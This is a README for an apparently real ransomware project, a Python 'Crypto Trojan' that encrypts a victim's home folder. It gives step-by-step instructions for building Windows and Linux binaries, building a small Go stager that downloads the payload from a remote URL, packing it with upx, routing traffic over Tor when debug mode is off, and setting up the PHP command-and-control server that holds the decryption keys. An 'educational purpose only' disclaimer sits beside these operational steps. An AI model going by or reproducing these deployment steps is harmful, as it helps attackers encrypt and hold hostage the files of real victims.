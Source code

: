 # SupergirlOnCrypt :heart: :punch: :boom:

![Project Logo](https://thoughtful-dev.com/projects/supergirloncrypt/header.jpg)

**For EDUCATIONAL PURPOSE ONLY**

This is a Crypto Trojan written in Python which can be packed using Pyinstaller... 
and i :heart: Supergirl so there you go.

**To decrypt the Data the Victim has to answer some Questions about Supergirl! (No Payment required since it was just a fun Project)**

## Content
1. [Requirements](#requirements)
2. [Setup](#setup)
3. [Building](#building)
---
![Image while Building](https://thoughtful-dev.com/projects/supergirloncrypt/term.png)
---
## Requirements

Both Windows AND Linux must have Python >= 3.5 installed to build the Executable/Binary.

Optionally you need the Golang compiler if you want to use the Go Stager because the Binary with Pyinstaller is quite large (~30mb - Windows and Linux)
(Go Stager is only ~700kb).

---
## Setup

We will generate the API´s public and private key in this process.
So if you first generate a binary for Linux as shown here then you have to copy the whole repository folder to the windows box and only choose to recreate the `venv`.
## The Trojan

1. Change the API_URL in App/Config.py to your C&C Server URL
2. Disable DEBUG_MODE (Leave it on if your API is running locally because otherwise Tor cant reach your local network)
3. Optionally change your File Types
4. Build Executables/Binary for Windows and/or Linux
5. Setup API

## Overview of DEBUG True vs False
Debug On | Debug Off
------------ | -------------
Creates a logfile | No logfile
Does not user Tor | Uses Tor to communicate
Encrypts Folder `./test_files` | Encrypts Users HomeFolder

**If you are Testing leave the DEBUG MODE ON OR USE A VM**


## Building

### Linux
```
$ cd Scripts
$ ./supergirl.sh setup python3
$ ./supergirl.sh build
```
**Now copy the whole folder to the Windows VM/Machine where you want to build the Windows Executable. When running the `supergirl.ps1` ONLY recreate the `venv` and NOT the Keys since they are already generated from our Linux Setup.** *

*Optionally you can also clone the Repo to the Windows Machine and only replace `API/bin/private.key` and `App/res/server.public.key`

**This also applies vice versa**

### Windows
```
PS> cd Scripts
PS> .\supergirl.ps1 -mode setup -path C:\\...\\python.exe
PS> .\supergirl.ps1 -mode build
```

### Building Stager
1. Upload your Binary which you gathered from the previous step
2. Go to `./Stagers/Go` and open `main.go`
3. Change line 34 `var url string = "your-direct-download-url-here"`

#### Building a Linux Stager
4. `GOOS=linux go build -ldflags="-s -w" -o stager main.go`

#### Building a Windows Stager
5. `GOOS=windows GOARCH=386 go build -ldflags="-s -w -H=windowsgui" -o stager.exe main.go`

6. Optionally compress the Stager(.exe) binary with upx

7. LINUX: `upx --ultra-brute -o compressed_stager stager`
7. WINDOWS: `upx.exe --ultra-brute -o compressed_stager.exe stager.exe`
8. Done

## API

Since we communicate with our API we need to set it up. The API(located in ./API duhh) is written in PHP so any Linux /Win Server will do.
On your Ubuntu C&C Server run:
```
$ sudo add-apt-repository ppa:ondrej/php
$ sudo apt update
$ sudo apt install apache2 php7.1 libapache2-mod-php7.1 php7.1-mbstring php7.1-sqlite3 php7.1-xml
$ sudo apt install composer unzip
```
Now copy the API Folder to your Server in the www root

```
$ cd /var/html
$ composer install
```
We need to install python to decrypt our keys if a user wants to decrypt
```
$ sudo apt install python3 python3-dev python3-pip
$ pip3 install cryptography
```
Your API should now be ready on http://ip/public (should respond with 501)

**I wont show you how to setup a Tor hidden Service**

## Contributing
You can always open a Pull Request

OR

[![Buy me a coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/supergirl)



# Disclaimer

### FOR EDUCATIONAL PURPOSE ONLY I AM NOT RESPONSIBLE FOR ANYTHING
```
            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
                    Version 2, December 2004

 Copyright (C) 2017 ThoughtfulDev

 Everyone is permitted to copy and distribute verbatim or modified
 copies of this license document, and changing it is allowed as long
 as the name is changed.

            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
   TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION

  0. You just DO WHAT THE FUCK YOU WANT TO.
```
---
I have no Idea if you understand this README. 
